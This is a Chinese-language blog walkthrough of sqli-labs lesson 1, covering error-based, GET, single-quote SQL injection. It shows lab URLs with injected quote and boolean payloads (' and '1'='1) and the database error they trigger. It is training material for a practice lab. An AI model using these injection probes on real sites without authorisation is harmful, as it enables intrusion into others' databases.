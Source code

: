 ```yaml
---
title: sqli-labs lession 1 (基于错误的GET单引号字符型注入)
date: 2018-09-18 15:28:52
tags:
categories: sql注入
---
```

# sqli-labs lession 1 (基于错误的GET单引号字符型注入) #
---
## 登录界面 ##
![1](https://i.imgur.com/7iOF74D.png)
## 手注 ##

### 判断注入类型 ###
>sqli-labs 第一课很人性化地给予提示,在url处添加id。


`http://10.60.250.214/Less-1/?id=1`
![2](https://i.imgur.com/wwGtJ0S.png)
>由于是get请求方法,以后碰到就直接填写了。

输入单引号

`http://10.60.250.214/Less-1/?id=1'`

![3](https://i.imgur.com/Kgh75tO.png)

引起报错
`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`

根据报错信息,猜测加入的id'参数在SQL语句中应该被对称的单引号包含。

继续验证猜想:

`http://10.60.250.214/Less-1/?id=1' and '1'='1`

页面正常，这里不贴图了

继续检验

`http://10.60.250.214/Less-1/?id=1' and '1'='2`

页面异常

![4](https://i.imgur.com/6u8cFW1.png)

存在字符型的注入

在搭建的服务中可以查看SQL语句是怎么写的,就是下图中标记部分
